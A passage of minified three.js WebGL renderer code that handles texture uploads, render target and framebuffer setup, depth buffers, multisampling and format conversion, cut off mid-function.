s!==t.R16F&&s!==t.R32F&&s!==t.RG16F&&s!==t.RG32F&&s!==t.RGBA16F&&s!==t.RGBA32F||e.get("EXT_color_buffer_float"),s}function y(e,n){let i;return e?null===n||n===K||n===tt?i=t.DEPTH24_STENCIL8:n===Z?i=t.DEPTH32F_STENCIL8:n===q&&(i=t.DEPTH24_STENCIL8,console.warn("DepthTexture: 16 bit depth attachment is not supported with stencil. Using 24-bit attachment.")):null===n||n===K||n===tt?i=t.DEPTH_COMPONENT24:n===Z?i=t.DEPTH_COMPONENT32F:n===q&&(i=t.DEPTH_COMPONENT16),i}function x(t,e){return!0===g(t)||t.isFramebufferTexture&&t.minFilter!==k&&t.minFilter!==H?Math.log2(Math.max(e.width,e.height))+1:void 0!==t.mipmaps&&t.mipmaps.length>0?t.mipmaps.length:t.isCompressedTexture&&Array.isArray(t.image)?e.mipmaps.length:1}function b(t){const e=t.target;e.removeEventListener("dispose",b),function(t){const e=i.get(t);if(void 0===e.__webglInit)return;const n=t.source,r=d.get(n);if(r){const i=r[e.__cacheKey];i.usedTimes--,0===i.usedTimes&&S(t),0===Object.keys(r).length&&d.delete(n)}i.remove(t)}(e),e.isVideoTexture&&h.delete(e)}function M(e){const n=e.target;n.removeEventListener("dispose",M),function(e){const n=i.get(e);e.depthTexture&&e.depthTexture.dispose();if(e.isWebGLCubeRenderTarget)for(let e=0;e<6;e++){if(Array.isArray(n.__webglFramebuffer[e]))for(let i=0;i<n.__webglFramebuffer[e].length;i++)t.deleteFramebuffer(n.__webglFramebuffer[e][i]);else t.deleteFramebuffer(n.__webglFramebuffer[e]);n.__webglDepthbuffer&&t.deleteRenderbuffer(n.__webglDepthbuffer[e])}else{if(Array.isArray(n.__webglFramebuffer))for(let e=0;e<n.__webglFramebuffer.length;e++)t.deleteFramebuffer(n.__webglFramebuffer[e]);else t.deleteFramebuffer(n.__webglFramebuffer);if(n.__webglDepthbuffer&&t.deleteRenderbuffer(n.__webglDepthbuffer),n.__webglMultisampledFramebuffer&&t.deleteFramebuffer(n.__webglMultisampledFramebuffer),n.__webglColorRenderbuffer)for(let e=0;e<n.__webglColorRenderbuffer.length;e++)n.__webglColorRenderbuffer[e]&&t.deleteRenderbuffer(n.__webglColorRenderbuffer[e]);n.__webglDepthRenderbuffer&&t.deleteRenderbuffer(n.__webglDepthRenderbuffer)}const r=e.textures;for(let e=0,n=r.length;e<n;e++){const n=i.get(r[e]);n.__webglTexture&&(t.deleteTexture(n.__webglTexture),o.memory.textures--),i.remove(r[e])}i.remove(e)}(n)}function S(e){const n=i.get(e);t.deleteTexture(n.__webglTexture);const r=e.source;delete d.get(r)[n.__cacheKey],o.memory.textures--}let E=0;function w(e,r){const a=i.get(e);if(e.isVideoTexture&&function(t){const e=o.render.frame;h.get(t)!==e&&(h.set(t,e),t.update())}(e),!1===e.isRenderTargetTexture&&e.version>0&&a.__version!==e.version){const t=e.image;if(null===t)console.warn("THREE.WebGLRenderer: Texture marked for update but no image data found.");else{if(!1!==t.complete)return void L(a,e,r);console.warn("THREE.WebGLRenderer: Texture marked for update but image is incomplete")}}n.bindTexture(t.TEXTURE_2D,a.__webglTexture,t.TEXTURE0+r)}const T={[U]:t.REPEAT,[N]:t.CLAMP_TO_EDGE,[F]:t.MIRRORED_REPEAT},A={[k]:t.NEAREST,[z]:t.NEAREST_MIPMAP_NEAREST,[B]:t.NEAREST_MIPMAP_LINEAR,[H]:t.LINEAR,[V]:t.LINEAR_MIPMAP_NEAREST,[G]:t.LINEAR_MIPMAP_LINEAR},C={[Kt]:t.NEVER,[ne]:t.ALWAYS,[Zt]:t.LESS,[Jt]:t.LEQUAL,[$t]:t.EQUAL,[ee]:t.GEQUAL,[Qt]:t.GREATER,[te]:t.NOTEQUAL};function R(n,a){if(a.type!==Z||!1!==e.has("OES_texture_float_linear")||a.magFilter!==H&&a.magFilter!==V&&a.magFilter!==B&&a.magFilter!==G&&a.minFilter!==H&&a.minFilter!==V&&a.minFilter!==B&&a.minFilter!==G||console.warn("THREE.WebGLRenderer: Unable to use linear filtering with floating point textures. OES_texture_float_linear not supported on this device."),t.texParameteri(n,t.TEXTURE_WRAP_S,T[a.wrapS]),t.texParameteri(n,t.TEXTURE_WRAP_T,T[a.wrapT]),n!==t.TEXTURE_3D&&n!==t.TEXTURE_2D_ARRAY||t.texParameteri(n,t.TEXTURE_WRAP_R,T[a.wrapR]),t.texParameteri(n,t.TEXTURE_MAG_FILTER,A[a.magFilter]),t.texParameteri(n,t.TEXTURE_MIN_FILTER,A[a.minFilter]),a.compareFunction&&(t.texParameteri(n,t.TEXTURE_COMPARE_MODE,t.COMPARE_REF_TO_TEXTURE),t.texParameteri(n,t.TEXTURE_COMPARE_FUNC,C[a.compareFunction])),!0===e.has("EXT_texture_filter_anisotropic")){if(a.magFilter===k)return;if(a.minFilter!==B&&a.minFilter!==G)return;if(a.type===Z&&!1===e.has("OES_texture_float_linear"))return;if(a.anisotropy>1||i.get(a).__currentAnisotropy){const o=e.get("EXT_texture_filter_anisotropic");t.texParameterf(n,o.TEXTURE_MAX_ANISOTROPY_EXT,Math.min(a.anisotropy,r.getMaxAnisotropy())),i.get(a).__currentAnisotropy=a.anisotropy}}}function P(e,n){let i=!1;void 0===e.__webglInit&&(e.__webglInit=!0,n.addEventListener("dispose",b));const r=n.source;let a=d.get(r);void 0===a&&(a={},d.set(r,a));const s=function(t){const e=[];return e.push(t.wrapS),e.push(t.wrapT),e.push(t.wrapR||0),e.push(t.magFilter),e.push(t.minFilter),e.push(t.anisotropy),e.push(t.internalFormat),e.push(t.format),e.push(t.type),e.push(t.generateMipmaps),e.push(t.premultiplyAlpha),e.push(t.flipY),e.push(t.unpackAlignment),e.push(t.colorSpace),e.join()}(n);if(s!==e.__cacheKey){void 0===a[s]&&(a[s]={texture:t.createTexture(),usedTimes:0},o.memory.textures++,i=!0),a[s].usedTimes++;const r=a[e.__cacheKey];void 0!==r&&(a[e.__cacheKey].usedTimes--,0===r.usedTimes&&S(n)),e.__cacheKey=s,e.__webglTexture=a[s].texture}return i}function L(e,o,s){let l=t.TEXTURE_2D;(o.isDataArrayTexture||o.isCompressedArrayTexture)&&(l=t.TEXTURE_2D_ARRAY),o.isData3DTexture&&(l=t.TEXTURE_3D);const c=P(e,o),h=o.source;n.bindTexture(l,e.__webglTexture,t.TEXTURE0+s);const u=i.get(h);if(h.version!==u.__version||!0===c){n.activeTexture(t.TEXTURE0+s);const e=Pe.getPrimaries(Pe.workingColorSpace),i=o.colorSpace===zt?null:Pe.getPrimaries(o.colorSpace),d=o.colorSpace===zt||e===i?t.NONE:t.BROWSER_DEFAULT_WEBGL;t.pixelStorei(t.UNPACK_FLIP_Y_WEBGL,o.flipY),t.pixelStorei(t.UNPACK_PREMULTIPLY_ALPHA_WEBGL,o.premultiplyAlpha),t.pixelStorei(t.UNPACK_ALIGNMENT,o.unpackAlignment),t.pixelStorei(t.UNPACK_COLORSPACE_CONVERSION_WEBGL,d);let p=m(o.image,!1,r.maxTextureSize);p=J(o,p);const f=a.convert(o.format,o.colorSpace),b=a.convert(o.type);let M,S=v(o.internalFormat,f,b,o.colorSpace,o.isVideoTexture);R(l,o);const E=o.mipmaps,w=!0!==o.isVideoTexture,T=void 0===u.__version||!0===c,A=h.dataReady,C=x(o,p);if(o.isDepthTexture)S=y(o.format===rt,o.type),T&&(w?n.texStorage2D(t.TEXTURE_2D,1,S,p.width,p.height):n.texImage2D(t.TEXTURE_2D,0,S,p.width,p.height,0,f,b,null));else if(o.isDataTexture)if(E.length>0){w&&T&&n.texStorage2D(t.TEXTURE_2D,C,S,E[0].width,E[0].height);for(let e=0,i=E.length;e<i;e++)M=E[e],w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,b,M.data):n.texImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,f,b,M.data);o.generateMipmaps=!1}else w?(T&&n.texStorage2D(t.TEXTURE_2D,C,S,p.width,p.height),A&&n.texSubImage2D(t.TEXTURE_2D,0,0,0,p.width,p.height,f,b,p.data)):n.texImage2D(t.TEXTURE_2D,0,S,p.width,p.height,0,f,b,p.data);else if(o.isCompressedTexture)if(o.isCompressedArrayTexture){w&&T&&n.texStorage3D(t.TEXTURE_2D_ARRAY,C,S,E[0].width,E[0].height,p.depth);for(let e=0,i=E.length;e<i;e++)if(M=E[e],o.format!==nt)if(null!==f)if(w){if(A)if(o.layerUpdates.size>0){const i=Ko(M.width,M.height,o.format,o.type);for(const r of o.layerUpdates){const a=M.data.subarray(r*i/M.data.BYTES_PER_ELEMENT,(r+1)*i/M.data.BYTES_PER_ELEMENT);n.compressedTexSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,r,M.width,M.height,1,f,a,0,0)}o.clearLayerUpdates()}else n.compressedTexSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,0,M.width,M.height,p.depth,f,M.data,0,0)}else n.compressedTexImage3D(t.TEXTURE_2D_ARRAY,e,S,M.width,M.height,p.depth,0,M.data,0,0);else console.warn("THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .uploadTexture()");else w?A&&n.texSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,0,M.width,M.height,p.depth,f,b,M.data):n.texImage3D(t.TEXTURE_2D_ARRAY,e,S,M.width,M.height,p.depth,0,f,b,M.data)}else{w&&T&&n.texStorage2D(t.TEXTURE_2D,C,S,E[0].width,E[0].height);for(let e=0,i=E.length;e<i;e++)M=E[e],o.format!==nt?null!==f?w?A&&n.compressedTexSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,M.data):n.compressedTexImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,M.data):console.warn("THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .uploadTexture()"):w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,b,M.data):n.texImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,f,b,M.data)}else if(o.isDataArrayTexture)if(w){if(T&&n.texStorage3D(t.TEXTURE_2D_ARRAY,C,S,p.width,p.height,p.depth),A)if(o.layerUpdates.size>0){const e=Ko(p.width,p.height,o.format,o.type);for(const i of o.layerUpdates){const r=p.data.subarray(i*e/p.data.BYTES_PER_ELEMENT,(i+1)*e/p.data.BYTES_PER_ELEMENT);n.texSubImage3D(t.TEXTURE_2D_ARRAY,0,0,0,i,p.width,p.height,1,f,b,r)}o.clearLayerUpdates()}else n.texSubImage3D(t.TEXTURE_2D_ARRAY,0,0,0,0,p.width,p.height,p.depth,f,b,p.data)}else n.texImage3D(t.TEXTURE_2D_ARRAY,0,S,p.width,p.height,p.depth,0,f,b,p.data);else if(o.isData3DTexture)w?(T&&n.texStorage3D(t.TEXTURE_3D,C,S,p.width,p.height,p.depth),A&&n.texSubImage3D(t.TEXTURE_3D,0,0,0,0,p.width,p.height,p.depth,f,b,p.data)):n.texImage3D(t.TEXTURE_3D,0,S,p.width,p.height,p.depth,0,f,b,p.data);else if(o.isFramebufferTexture){if(T)if(w)n.texStorage2D(t.TEXTURE_2D,C,S,p.width,p.height);else{let e=p.width,i=p.height;for(let r=0;r<C;r++)n.texImage2D(t.TEXTURE_2D,r,S,e,i,0,f,b,null),e>>=1,i>>=1}}else if(E.length>0){if(w&&T){const e=Q(E[0]);n.texStorage2D(t.TEXTURE_2D,C,S,e.width,e.height)}for(let e=0,i=E.length;e<i;e++)M=E[e],w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,f,b,M):n.texImage2D(t.TEXTURE_2D,e,S,f,b,M);o.generateMipmaps=!1}else if(w){if(T){const e=Q(p);n.texStorage2D(t.TEXTURE_2D,C,S,e.width,e.height)}A&&n.texSubImage2D(t.TEXTURE_2D,0,0,0,f,b,p)}else n.texImage2D(t.TEXTURE_2D,0,S,f,b,p);g(o)&&_(l),u.__version=h.version,o.onUpdate&&o.onUpdate(o)}e.__version=o.version}function D(e,r,o,l,c,h){const u=a.convert(o.format,o.colorSpace),d=a.convert(o.type),p=v(o.internalFormat,u,d,o.colorSpace);if(!i.get(r).__hasExternalTextures){const e=Math.max(1,r.width>>h),i=Math.max(1,r.height>>h);c===t.TEXTURE_3D||c===t.TEXTURE_2D_ARRAY?n.texImage3D(c,h,p,e,i,r.depth,0,u,d,null):n.texImage2D(c,h,p,e,i,0,u,d,null)}n.bindFramebuffer(t.FRAMEBUFFER,e),$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,l,c,i.get(o).__webglTexture,0,Y(r)):(c===t.TEXTURE_2D||c>=t.TEXTURE_CUBE_MAP_POSITIVE_X&&c<=t.TEXTURE_CUBE_MAP_NEGATIVE_Z)&&t.framebufferTexture2D(t.FRAMEBUFFER,l,c,i.get(o).__webglTexture,h),n.bindFramebuffer(t.FRAMEBUFFER,null)}function I(e,n,i){if(t.bindRenderbuffer(t.RENDERBUFFER,e),n.depthBuffer){const r=n.depthTexture,a=r&&r.isDepthTexture?r.type:null,o=y(n.stencilBuffer,a),l=n.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,c=Y(n);$(n)?s.renderbufferStorageMultisampleEXT(t.RENDERBUFFER,c,o,n.width,n.height):i?t.renderbufferStorageMultisample(t.RENDERBUFFER,c,o,n.width,n.height):t.renderbufferStorage(t.RENDERBUFFER,o,n.width,n.height),t.framebufferRenderbuffer(t.FRAMEBUFFER,l,t.RENDERBUFFER,e)}else{const e=n.textures;for(let r=0;r<e.length;r++){const o=e[r],l=a.convert(o.format,o.colorSpace),c=a.convert(o.type),h=v(o.internalFormat,l,c,o.colorSpace),u=Y(n);i&&!1===$(n)?t.renderbufferStorageMultisample(t.RENDERBUFFER,u,h,n.width,n.height):$(n)?s.renderbufferStorageMultisampleEXT(t.RENDERBUFFER,u,h,n.width,n.height):t.renderbufferStorage(t.RENDERBUFFER,h,n.width,n.height)}}t.bindRenderbuffer(t.RENDERBUFFER,null)}function O(e){const r=i.get(e),a=!0===e.isWebGLCubeRenderTarget;if(r.__boundDepthTexture!==e.depthTexture){const t=e.depthTexture;if(r.__depthDisposeCallback&&r.__depthDisposeCallback(),t){const e=()=>{delete r.__boundDepthTexture,delete r.__depthDisposeCallback,t.removeEventListener("dispose",e)};t.addEventListener("dispose",e),r.__depthDisposeCallback=e}r.__boundDepthTexture=t}if(e.depthTexture&&!r.__autoAllocateDepthBuffer){if(a)throw new Error("target.depthTexture not supported in Cube render targets");!function(e,r){if(r&&r.isWebGLCubeRenderTarget)throw new Error("Depth Texture with cube render targets is not supported");if(n.bindFramebuffer(t.FRAMEBUFFER,e),!r.depthTexture||!r.depthTexture.isDepthTexture)throw new Error("renderTarget.depthTexture must be an instance of THREE.DepthTexture");i.get(r.depthTexture).__webglTexture&&r.depthTexture.image.width===r.width&&r.depthTexture.image.height===r.height||(r.depthTexture.image.width=r.width,r.depthTexture.image.height=r.height,r.depthTexture.needsUpdate=!0),w(r.depthTexture,0);const a=i.get(r.depthTexture).__webglTexture,o=Y(r);if(r.depthTexture.format===it)$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,t.DEPTH_ATTACHMENT,t.TEXTURE_2D,a,0,o):t.framebufferTexture2D(t.FRAMEBUFFER,t.DEPTH_ATTACHMENT,t.TEXTURE_2D,a,0);else{if(r.depthTexture.format!==rt)throw new Error("Unknown depthTexture format");$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,t.DEPTH_STENCIL_ATTACHMENT,t.TEXTURE_2D,a,0,o):t.framebufferTexture2D(t.FRAMEBUFFER,t.DEPTH_STENCIL_ATTACHMENT,t.TEXTURE_2D,a,0)}}(r.__webglFramebuffer,e)}else if(a){r.__webglDepthbuffer=[];for(let i=0;i<6;i++)if(n.bindFramebuffer(t.FRAMEBUFFER,r.__webglFramebuffer[i]),void 0===r.__webglDepthbuffer[i])r.__webglDepthbuffer[i]=t.createRenderbuffer(),I(r.__webglDepthbuffer[i],e,!1);else{const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,a=r.__webglDepthbuffer[i];t.bindRenderbuffer(t.RENDERBUFFER,a),t.framebufferRenderbuffer(t.FRAMEBUFFER,n,t.RENDERBUFFER,a)}}else if(n.bindFramebuffer(t.FRAMEBUFFER,r.__webglFramebuffer),void 0===r.__webglDepthbuffer)r.__webglDepthbuffer=t.createRenderbuffer(),I(r.__webglDepthbuffer,e,!1);else{const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,i=r.__webglDepthbuffer;t.bindRenderbuffer(t.RENDERBUFFER,i),t.framebufferRenderbuffer(t.FRAMEBUFFER,n,t.RENDERBUFFER,i)}n.bindFramebuffer(t.FRAMEBUFFER,null)}const W=[],X=[];function Y(t){return Math.min(r.maxSamples,t.samples)}function $(t){const n=i.get(t);return t.samples>0&&!0===e.has("WEBGL_multisampled_render_to_texture")&&!1!==n.__useRenderToTexture}function J(t,e){const n=t.colorSpace,i=t.format,r=t.type;return!0===t.isCompressedTexture||!0===t.isVideoTexture||n!==Ht&&n!==zt&&(Pe.getTransfer(n)===Wt?i===nt&&r===j||console.warn("THREE.WebGLTextures: sRGB encoded textures have to use RGBAFormat and UnsignedByteType."):console.error("THREE.WebGLTextures: Unsupported texture color space:",n)),e}function Q(t){return"undefined"!=typeof HTMLImageElement&&t instanceof HTMLImageElement?(c.width=t.naturalWidth||t.width,c.height=t.naturalHeight||t.height):"undefined"!=typeof VideoFrame&&t instanceof VideoFrame?(c.width=t.displayWidth,c.height=t.displayHeight):(c.width=t.width,c.height=t.height),c}this.allocateTextureUnit=function(){const t=E;return t>=r.maxTextures&&console.warn("THREE.WebGLTextures: Trying to use "+t+" texture units while this GPU supports only "+r.maxTextures),E+=1,t},this.resetTextureUnits=function(){E=0},this.setTexture2D=w,this.setTexture2DArray=function(e,r){const a=i.get(e);e.version>0&&a.__version!==e.version?L(a,e,r):n.bindTexture(t.TEXTURE_2D_ARRAY,a.__webglTexture,t.TEXTURE0+r)},this.setTexture3D=function(e,r){const a=i.get(e);e.version>0&&a.__version!==e.version?L(a,e,r):n.bindTexture(t.TEXTURE_3D,a.__webglTexture,t.TEXTURE0+r)},this.setTextureCube=function(e,o){const s=i.get(e);e.version>0&&s.__version!==e.version?function(e,o,s){if(6!==o.image.length)return;const l=P(e,o),c=o.source;n.bindTexture(t.TEXTURE_CUBE_MAP,e.__webglTexture,t.TEXTURE0+s);const h=i.get(c);if(c.version!==h.__version||!0===l){n.activeTexture(t.TEXTURE0+s);const e=Pe.getPrimaries(Pe.workingColorSpace),i=o.colorSpace===zt?null:Pe.getPrimaries(o.colorSpace),u=o.colorSpace===zt||e===i?t.NONE:t.BROWSER_DEFAULT_WEBGL;t.pixelStorei(t.UNPACK_FLIP_Y_WEBGL,o.flipY),t.pixelStorei(t.UNPACK_PREMULTIPLY_ALPHA_WEBGL,o.premultiplyAlpha),t.pixelStorei(t.UNPACK_ALIGNMENT,o.unpackAlignment),t.pixelStorei(t.UNPACK_COLORSPACE_CONVERSION_WEBGL,u);const d=o.isCompressedTexture||o.image[0].isCompressedTexture,p=o.image[0]&&o.image[0].isDataTexture,f=[];for(let t=0;t<6;t++)f[t]=d||p?p?o.image[t].image:o.image[t]:m(o.image[t],!0,r.maxCubemapSize),f[t]=J(o,f[t]);const y=f[0],b=a.convert(o.format,o.colorSpace),M=a.convert(o.type),S=v(o.internalFormat,b,M,o.colorSpace),E=!0!==o.isVideoTexture,w=void 0===h.__version||!0===l,T=c.dataReady;let A,C=x(o,y);if(R(t.TEXTURE_CUBE_MAP,o),d){E&&w&&n.texStorage2D(t.TEXTURE_CUBE_MAP,C,S,y.width,y.height);for(let e=0;e<6;e++){A=f[e].mipmaps;for(let i=0;i<A.length;i++){const r=A[i];o.format!==nt?null!==b?E?T&&n.compressedTexSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,0,0,r.width,r.height,b,r.data):n.compressedTexImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,S,r.width,r.height,0,r.data):console.warn("THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .setTextureCube()"):E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,0,0,r.width,r.height,b,M,r.data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,S,r.width,r.height,0,b,M,r.data)}}}else{if(A=o.mipmaps,E&&w){A.length>0&&C++;const e=Q(f[0]);n.texStorage2D(t.TEXTURE_CUBE_MAP,C,S,e.width,e.height)}for(let e=0;e<6;e++)if(p){E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,0,0,f[e].width,f[e].height,b,M,f[e].data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,S,f[e].width,f[e].height,0,b,M,f[e].data);for(let i=0;i<A.length;i++){const r=A[i].image[e].image;E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,0,0,r.width,r.height,b,M,r.data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,S,r.width,r.height,0,b,M,r.data)}}else{E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,0,0,b,M,f[e]):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,S,b,M,f[e]);for(let i=0;i<A.length;i++){const r=A[i];E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,0,0,b,M,r.image[e]):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,S,b,M,r.image[e])}}}g(o)&&_(t.TEXTURE_CUBE_MAP),h.__version=c.version,o.onUpdate&&o.onUpdate(o)}e.__version=o.version}(s,e,o):n.bindTexture(t.TEXTURE_CUBE_MAP,s.__webglTexture,t.TEXTURE0+o)},this.rebindTextures=function(e,n,r){const a=i.get(e);void 0!==n&&D(a.__webglFramebuffer,e,e.texture,t.COLOR_ATTACHMENT0,t.TEXTURE_2D,0),void 0!==r&&O(e)},this.setupRenderTarget=function(e){const r=e.texture,s=i.get(e),l=i.get(r);e.addEventListener("dispose",M);const c=e.textures,h=!0===e.isWebGLCubeRenderTarget,u=c.length>1;if(u||(void 0===l.__webglTexture&&(l.__webglTexture=t.createTexture()),l.__version=r.version,o.memory.textures++),h){s.__webglFramebuffer=[];for(let e=0;e<6;e++)if(r.mipmaps&&r.mipmaps.length>0){s.__webglFramebuffer[e]=[];for(let n=0;n<r.mipmaps.length;n++)s.__webglFramebuffer[e][n]=t.createFramebuffer()}else s.__webglFramebuffer[e]=t.createFramebuffer()}else{if(r.mipmaps&&r.mipmaps.length>0){s.__webglFramebuffer=[];for(let e=0;e<r.mipmaps.length;e++)s.__webglFramebuffer[e]=t.createFramebuffer()}else s.__webglFramebuffer=t.createFramebuffer();if(u)for(let e=0,n=c.length;e<n;e++){const n=i.get(c[e]);void 0===n.__webglTexture&&(n.__webglTexture=t.createTexture(),o.memory.textures++)}if(e.samples>0&&!1===$(e)){s.__webglMultisampledFramebuffer=t.createFramebuffer(),s.__webglColorRenderbuffer=[],n.bindFramebuffer(t.FRAMEBUFFER,s.__webglMultisampledFramebuffer);for(let n=0;n<c.length;n++){const i=c[n];s.__webglColorRenderbuffer[n]=t.createRenderbuffer(),t.bindRenderbuffer(t.RENDERBUFFER,s.__webglColorRenderbuffer[n]);const r=a.convert(i.format,i.colorSpace),o=a.convert(i.type),l=v(i.internalFormat,r,o,i.colorSpace,!0===e.isXRRenderTarget),h=Y(e);t.renderbufferStorageMultisample(t.RENDERBUFFER,h,l,e.width,e.height),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+n,t.RENDERBUFFER,s.__webglColorRenderbuffer[n])}t.bindRenderbuffer(t.RENDERBUFFER,null),e.depthBuffer&&(s.__webglDepthRenderbuffer=t.createRenderbuffer(),I(s.__webglDepthRenderbuffer,e,!0)),n.bindFramebuffer(t.FRAMEBUFFER,null)}}if(h){n.bindTexture(t.TEXTURE_CUBE_MAP,l.__webglTexture),R(t.TEXTURE_CUBE_MAP,r);for(let n=0;n<6;n++)if(r.mipmaps&&r.mipmaps.length>0)for(let i=0;i<r.mipmaps.length;i++)D(s.__webglFramebuffer[n][i],e,r,t.COLOR_ATTACHMENT0,t.TEXTURE_CUBE_MAP_POSITIVE_X+n,i);else D(s.__webglFramebuffer[n],e,r,t.COLOR_ATTACHMENT0,t.TEXTURE_CUBE_MAP_POSITIVE_X+n,0);g(r)&&_(t.TEXTURE_CUBE_MAP),n.unbindTexture()}else if(u){for(let r=0,a=c.length;r<a;r++){const a=c[r],o=i.get(a);n.bindTexture(t.TEXTURE_2D,o.__webglTexture),R(t.TEXTURE_2D,a),D(s.__webglFramebuffer,e,a,t.COLOR_ATTACHMENT0+r,t.TEXTURE_2D,0),g(a)&&_(t.TEXTURE_2D)}n.unbindTexture()}else{let i=t.TEXTURE_2D;if((e.isWebGL3DRenderTarget||e.isWebGLArrayRenderTarget)&&(i=e.isWebGL3DRenderTarget?t.TEXTURE_3D:t.TEXTURE_2D_ARRAY),n.bindTexture(i,l.__webglTexture),R(i,r),r.mipmaps&&r.mipmaps.length>0)for(let n=0;n<r.mipmaps.length;n++)D(s.__webglFramebuffer[n],e,r,t.COLOR_ATTACHMENT0,i,n);else D(s.__webglFramebuffer,e,r,t.COLOR_ATTACHMENT0,i,0);g(r)&&_(i),n.unbindTexture()}e.depthBuffer&&O(e)},this.updateRenderTargetMipmap=function(e){const r=e.textures;for(let a=0,o=r.length;a<o;a++){const o=r[a];if(g(o)){const r=e.isWebGLCubeRenderTarget?t.TEXTURE_CUBE_MAP:t.TEXTURE_2D,a=i.get(o).__webglTexture;n.bindTexture(r,a),_(r),n.unbindTexture()}}},this.updateMultisampleRenderTarget=function(e){if(e.samples>0)if(!1===$(e)){const r=e.textures,a=e.width,o=e.height;let s=t.COLOR_BUFFER_BIT;const c=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,h=i.get(e),u=r.length>1;if(u)for(let e=0;e<r.length;e++)n.bindFramebuffer(t.FRAMEBUFFER,h.__webglMultisampledFramebuffer),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.RENDERBUFFER,null),n.bindFramebuffer(t.FRAMEBUFFER,h.__webglFramebuffer),t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.TEXTURE_2D,null,0);n.bindFramebuffer(t.READ_FRAMEBUFFER,h.__webglMultisampledFramebuffer),n.bindFramebuffer(t.DRAW_FRAMEBUFFER,h.__webglFramebuffer);for(let n=0;n<r.length;n++){if(e.resolveDepthBuffer&&(e.depthBuffer&&(s|=t.DEPTH_BUFFER_BIT),e.stencilBuffer&&e.resolveStencilBuffer&&(s|=t.STENCIL_BUFFER_BIT)),u){t.framebufferRenderbuffer(t.READ_FRAMEBUFFER,t.COLOR_ATTACHMENT0,t.RENDERBUFFER,h.__webglColorRenderbuffer[n]);const e=i.get(r[n]).__webglTexture;t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0,t.TEXTURE_2D,e,0)}t.blitFramebuffer(0,0,a,o,0,0,a,o,s,t.NEAREST),!0===l&&(W.length=0,X.length=0,W.push(t.COLOR_ATTACHMENT0+n),e.depthBuffer&&!1===e.resolveDepthBuffer&&(W.push(c),X.push(c),t.invalidateFramebuffer(t.DRAW_FRAMEBUFFER,X)),t.invalidateFramebuffer(t.READ_FRAMEBUFFER,W))}if(n.bindFramebuffer(t.READ_FRAMEBUFFER,null),n.bindFramebuffer(t.DRAW_FRAMEBUFFER,null),u)for(let e=0;e<r.length;e++){n.bindFramebuffer(t.FRAMEBUFFER,h.__webglMultisampledFramebuffer),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.RENDERBUFFER,h.__webglColorRenderbuffer[e]);const a=i.get(r[e]).__webglTexture;n.bindFramebuffer(t.FRAMEBUFFER,h.__webglFramebuffer),t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.TEXTURE_2D,a,0)}n.bindFramebuffer(t.DRAW_FRAMEBUFFER,h.__webglMultisampledFramebuffer)}else if(e.depthBuffer&&!1===e.resolveDepthBuffer&&l){const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT;t.invalidateFramebuffer(t.DRAW_FRAMEBUFFER,[n])}},this.setupDepthRenderbuffer=O,this.setupFrameBufferTexture=D,this.useMultisampledRTT=$}function $o(t,e){return{convert:function(n,i=""){let r;const a=Pe.getTransfer(i);if(n===j)return t.UNSIGNED_BYTE;if(n===J)return t.UNSIGNED_SHORT_4_4_4_4;if(n===Q)return t.UNSIGNED_SHORT_5_5_5_1;if(n===et)return t.UNSIGNED_INT_5_9_9_9_REV;if(n===W)return t.BYTE;if(n===X)return t.SHORT;if(n===q)return t.UNSIGNED_SHORT;if(n===Y)return t.INT;if(n===K)return t.UNSIGNED_INT;if(n===Z)return t.FLOAT;if(n===$)return t.HALF_FLOAT;if(1021===n)return t.ALPHA;if(1022===n)return t.RGB;if(n===nt)return t.RGBA;if(1024===n)return t.LUMINANCE;if(1025===n)return t.LUMINANCE_ALPHA;if(n===it)return t.DEPTH_COMPONENT;if(n===rt)return t.DEPTH_STENCIL;if(1028===n)return t.RED;if(n===at)return t.RED_INTEGER;if(1030===n)return 